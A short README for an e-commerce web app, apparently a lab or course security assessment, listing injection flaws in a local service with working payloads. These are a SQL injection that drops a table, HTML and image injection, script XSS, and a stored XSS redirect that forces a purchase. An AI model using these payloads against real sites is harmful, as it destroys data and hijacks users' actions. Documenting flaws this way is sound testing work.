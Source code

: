 # e-Commerce-App
Web app front-end developed  using HTML5 and CSS while back-end data is extracted from  existing APIs with  JavaScript/xml.

N01:	SQL Injection is possible within the search section.

	http://localhost:8188/DairyService.svc/search?term=jbon007%27;%20drop%20table%20Comments;%20--
	

N02:	HTML Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=HTML%20Injected
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188

	<style>*{background-color:pink}</style>


N03: 	HTML image Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=Image%20Injected
	Content-Type: application/json
	Content-Length: 100
	Host: http://localhost:8188


	<img src= "https://i1.pickpik.com/photos/388/52/975/cow-funny-ruminant-cute-preview.jpg">


N04: 	XSS (user-supplied script) Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=XSS
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188


	<script>alert("Dont Stay Safe. Do not Wash your hands.")</script>


N05:	CSRF (cross-site request forgery) attacks could be mounted on the service if a user who has already
	logged into his/her account within the website clicks onto a URL which was altered on the website 
	to perform an action which the user did not intend to do such as linking the user to the "buy now" 
	button thus causing the user to purchase an item unintentionally. 

N06:

	POST http://localhost:8188/DairyService.svc/comment?name=XSS
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188

	<script>window.location = "http://localhost:8189/Service.svc/buy?id=jbon007"</script>
